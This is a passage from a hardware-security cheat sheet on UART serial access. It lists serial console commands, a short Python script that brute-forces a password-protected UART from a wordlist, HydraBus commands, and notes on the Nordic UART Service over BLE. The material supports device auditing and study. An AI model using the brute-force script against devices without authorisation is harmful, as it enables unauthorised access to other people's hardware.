     ```powershell
    cu -l /dev/ttyUSB0 -s 115200
    microcom -d -s 115200 -p /dev/ttyUSB0
    minicom -b 115200 -o -D /dev/ttyUSB0 # To exit GNU screen, type Control-A k
    screen /dev/ttyUSB0 115200
    ```

* Brute force a password protected UART:

    ```python
    import serial, time
    port = "/dev/ttyUSB0"
    baud = 115200
    s = serial.Serial(port)
    s.baudrate = baud

    with open('/home/audit/Documents/IOT/passwords.lst', 'r') as f:
        lines = f.readlines()

        for pwd in lines:
            a = s.write(pwd.strip())
            print("Pwd: {}".format(pwd.strip()))
            print("Sent {} bytes".format(a))
            print("Result: {}".format(s.readline()))
            time.sleep(10)
    ```

* Interact with HydraBus

    ```ps1
    uart1> scan
    uart1> show
    uart1> speed 38400
    uart1> bridge
    ```

## UART over BLE

It’s an emulation of serial port over BLE. The UUID of the Nordic UART Service is `6E400001-B5A3-F393-E0A9-E50E24DCCA9E`. This service exposes two characteristics: one for transmitting and one for receiving.

* **RX Characteristic (UUID: 6E400002-B5A3-F393-E0A9-E50E24DCCA9E)** :
    * The peer can send data to the device by writing to the RX Characteristic of the service. ATT Write Request or ATT Write Command can be used. The received data is sent on the UART interface.
* **TX Characteristic (UUID: 6E400003-B5A3-F393-E0A9-E50E24DCCA9E)** :
    * If the peer has enabled notifications for the TX Characteristic, the application can send data to the peer as notifications. The application will transmit all data received over UART as notifications.

## References

* [nRF UART 2.0 - Nordic Semiconductor ASA](https://play.google.com/store/apps/details?id=com.nordicsemi.nrfUARTv2)
* [UART/Serial Port Emulation over BLE](https://infocenter.nordicsemi.com/index.jsp?topic=%2Fcom.nordic.infocenter.sdk5.v14.0.0%2Fble_sdk_app_nus_eval.html)
* [UART Over Bluetooth Low Energy](https://thejeshgn.com/2016/10/01/uart-over-bluetooth-low-energy/)
* [https://makecode.microbit.org/v1/98535-28913-33692-07418](https://makecode.microbit.org/v1/98535-28913-33692-07418)
* [Using the micro:bit Bluetooth Low Energy UART (serial over Bluetooth)](https://support.microbit.org/support/solutions/articles/19000062330-using-the-micro-bit-bluetooth-low-energy-uart-serial-over-bluetooth-)
